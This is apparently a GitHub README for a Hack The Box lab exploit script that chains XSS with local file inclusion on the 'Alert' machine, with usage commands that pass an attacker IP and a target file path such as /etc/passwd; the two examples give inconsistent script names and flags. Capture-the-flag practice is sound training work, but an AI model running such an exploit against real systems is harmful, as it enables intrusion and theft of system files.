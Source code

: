 # HTB Alert

WriteUp: [https://gunzf0x.github.io/pentesting/posts/alert/](https://gunzf0x.github.io/pentesting/posts/alert/)
Script for [HTB Alert](https://www.hackthebox.com/machines/alert) machine to chain `XSS` vulnerability with `LFI`.

## Usage

```shell-session
❯ python3 CVE-2023-4220.py -i <our-attacker-ip> -c '<absolute-path-file-to-read>'
```

For example:
```shell-session
❯ python3 exploit.py -i '10.10.16.3' -f '/etc/passwd'
```
